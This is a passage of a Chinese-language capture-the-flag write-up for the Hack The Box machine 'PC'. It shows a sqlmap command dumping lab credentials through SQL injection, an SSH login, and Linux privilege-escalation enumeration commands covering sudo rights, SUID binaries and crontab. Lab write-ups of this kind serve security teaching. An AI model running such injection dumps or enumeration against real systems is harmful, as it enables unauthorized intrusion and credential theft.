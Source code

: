 ![injection.png](/img/post-HTB-PC/7.png)

很简单的数值型注入，直接`copy to file`然后`sqlmap`爆破：

```bash
sqlmap -r grpc.req --dump --batch
...
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

...
```

除了 admin 外还拿到一个账户，可以登录 ssh，拿到第一个 flag

### 0x04 pyLoad提权

按惯例看一眼 sudo, suid, 计划任务：

```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
cat /etc/crontab
```

并没有发现可用于提权的程序。
